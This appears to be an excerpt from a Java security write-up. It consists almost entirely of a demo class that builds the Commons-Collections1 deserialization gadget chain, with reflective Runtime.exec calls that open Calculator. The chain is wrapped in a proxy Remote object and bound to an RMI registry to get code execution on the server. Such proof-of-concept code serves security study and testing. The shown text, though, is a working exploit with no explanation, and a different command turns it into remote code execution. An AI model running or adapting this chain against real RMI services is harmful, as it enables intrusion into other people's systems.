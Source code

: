 `Demo` code
```java
package org.h3rmesk1t.rmi;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.net.MalformedURLException;
import java.rmi.AlreadyBoundException;
import java.rmi.NotBoundException;
import java.rmi.Remote;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/1/30 1:42 am
 */
public class RMIClientAttackDemo1 {
    public static void main(String[] args) throws RemoteException, NotBoundException, MalformedURLEXception, ClassNotFoundException, InvocationTargetException, InstantiationException, IllegalAccessException, AlreadyBoundException {

        // Commons-Collection1 chain
        Transformer[] transformer = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
        Map hashMap = new HashMap();
        hashMap.put("value", "d1no");
        Map transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class<?> h3rmesk1t = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = h3rmesk1t.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, transformedMap);

        // Convert proxy object to Remote object
        Remote r = (Remote) Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[]{Remote.class}, invocationHandler);

        // Get remote object instance
        Registry registry = LocateRegistry.getRegistry("localhost", 3333);
        registry.bind("demoCaseBegin", r);
    }
```